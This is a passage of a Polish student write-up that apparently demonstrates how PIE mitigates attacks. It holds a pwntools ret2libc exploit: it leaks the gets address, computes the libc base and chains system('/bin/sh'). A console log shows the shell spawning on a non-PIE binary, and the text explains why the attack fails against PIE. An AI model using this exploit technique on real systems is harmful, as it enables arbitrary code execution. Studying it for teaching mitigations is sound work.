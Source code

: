 ```python
rop.raw(elf.sym['main'])
p.sendline(rop.chain())

######  wyliczenie adresu libc  ######
leaked_gets = u64(p.recv(6) + b'\x00\x00')  # otrzymany adres funkcji gets
libc.address = leaked_gets - libc.sym['gets']

##############  etap 2  ##############
rop = ROP(elf)
rop.raw('A'*PADDING_SIZE)
rop.raw(rop.rdi)
rop.raw(next(libc.search(b'/bin/sh\x00')))
rop.raw(rop.ret)                            # wyrównanie stosu
rop.raw(libc.sym['system'])
rop.raw(libc.sym['exit'])
p.sendline(rop.chain())
p.recvlines(2)

p.interactive('> ')
```

</font>

Jak widać na poniższym zrzucie konsoli, eksploit spełnia swoje zadanie na programie skompilowanym bez PIE.

<font size=1>

```bash
mb@ubuntu:~/Desktop/projekt_bso/PIE$ python3 exploit.py outNoPIE 
[*] '/home/mb/Desktop/projekt_bso/PIE/outNoPIE'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.32.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/mb/Desktop/projekt_bso/PIE/outNoPIE': pid 3412
[*] Loaded 14 cached gadgets for 'outNoPIE'
[*] Switching to interactive mode
> ls
exploit.py  outNoPIE  outPIE  skrypt.sh  vuln.c
>
```

</font>

Przy powtórzeniu próby wykonania eksploitu, tym razem na aplikacji skompilowanej jako PIE, nie udaje się uzyskać konsoli. Powodem jest oczywiście fakt, że teraz sekcja `PLT` nie ma znanego offsetu - jest on wybierany w momencie uruchomienia programu. 
